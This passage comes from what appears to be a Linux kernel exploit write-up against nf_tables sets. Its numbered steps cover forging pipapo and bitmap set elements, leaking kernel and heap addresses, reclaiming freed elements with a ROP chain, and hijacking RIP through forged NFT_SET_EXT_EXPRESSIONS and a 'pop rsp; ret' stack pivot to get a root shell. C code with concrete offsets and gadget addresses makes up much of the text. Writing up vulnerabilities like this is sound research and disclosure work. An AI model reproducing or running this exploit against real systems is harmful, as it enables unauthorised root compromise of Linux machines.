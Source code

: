   ```c
    //We pad some parts of the set element, which is some fake part of set element of rbtree_set
    *(uint64_t *)&key[12] = 0x3000000000006000;//NFT_SET_EXT_KEY=0x60, NFT_SET_EXT_USERDATA=0x30
    *(uint64_t *)&key[20] = 0;
    *&key[60] = 0xff;//fake udata_size
    *(uint64_t *)&pad[7] = 0x70; //fake key
    new_setelem_with_expr(socket, table, pipapo_set, pad, 0x70, obj_for_exp, key, 0x40, NULL, 0);
  ```
- 4. Create some bitmap elements to ensure that when reading udata out of bounds, you can read an element pointer(because the head of `nft_bitmap_elem` will save a doubly linked list):
  ```c
  struct nft_bitmap_elem {
	struct list_head	head;
	struct nft_set_ext	ext;
  };
  ```
- 5. Get element `B`. We will get the address of `nft_last_ops` and the address and the key of an element `D` of bitmap set.
- 6. Delete the element `D` we get in step 5.
- 7. Create some bitmap elements with our ROP gadget to get the heap of the element `D` back.
- 8. Delete the element `C`
- 9. Create an element `E` of a pipapo set to get the heap of the element `C` back(just like step 3). This time we hijack RIP by forging NFT_SET_EXT_EXPRESSIONS and nft_expr:
  ```c
    *(uint64_t *)&key[12] = 0x3000000000007800;//NFT_SET_EXT_KEY=0x78, NFT_SET_EXT_USERDATA=0x30
    *(uint64_t *)&key[20] = 0x5058;//NFT_SET_EXT_EXPRESSIONS=0x58, NFT_SET_EXT_OBJREF=0x50

    *(uint64_t *)&pad[0x17] = 0x10;//setelem->expr's size
    *(uint64_t *)&pad[0x1f] = ops_addr+0x20;//setelem->expr[0]->ops
    *(uint64_t *)&pad[0x27] = kernel_off + 0xffffffff8195e9f0;//pop rsp; ret  stack migration second
    *(uint64_t *)&pad[0x2f] = ops_addr+0x20;
    *(uint64_t *)&pad[0x37] = 0x70; //fake key
  ```
- 10. Get element `B`. We will hijack RIP, perform stack migration, and finally jump to the ROP gadget to get the root shell:
  ```c
  	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;

		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
  ```

